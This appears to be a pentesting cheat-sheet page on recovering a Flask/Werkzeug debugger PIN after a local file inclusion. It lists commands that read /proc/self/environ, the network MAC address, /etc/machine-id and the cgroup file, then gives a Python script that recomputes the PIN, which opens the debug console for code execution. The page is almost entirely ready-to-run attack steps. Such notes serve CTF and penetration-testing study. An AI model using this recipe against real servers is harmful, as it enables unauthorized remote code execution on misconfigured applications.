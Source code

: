 ```yaml
---
title: "Retrieve Flask Debug Pin"
date: 2024-7-12
tags: ["python", "flask", "werkzeug", "debug", "LFI"]
---
```


---
### Retrieve Flask Debug Pin

#### 1. Get user

<div>

```bash
cat /proc/self/environ | grep -aE ('USER'|'LOGNAME')
```

</div>

#### 2. Get full path of the application

<div>

```
+------------------------------+
| Get from Traceback debug log |
+------------------------------+
```

</div>

#### 3. Get MAC address

<div>

```bash
cat /sys/class/net/eth0/address
```

```bash
# Convert to int
python3 -c "print(int('<MAC_ADDRESS>'.replace(':',''), 16))"
```

</div>

#### 4. Create Machine ID String

<div>

```bash
echo $(cat /etc/machine-id)$(head -n 1 /proc/self/cgroup | rev | cut -d '/' -f1 | rev)
```

</div>

#### 5. Update public and private bits in Hacktrick's Script

<div>

```python
#!/usr/bin/env python3

import hashlib
from itertools import chain

probably_public_bits = [
    'user',       # username
    'flask.app',  # modname (should be flask.app)
    'Flask',      # Flask / wsgi_app / DebuggedApplication
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # full path of the app
]

private_bits = [
    '279275995014060',                  # Mac address
    'd4e6cb65d59544f3331ea0425dc555a1'  # machine_id string
]

h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

</div>

<br>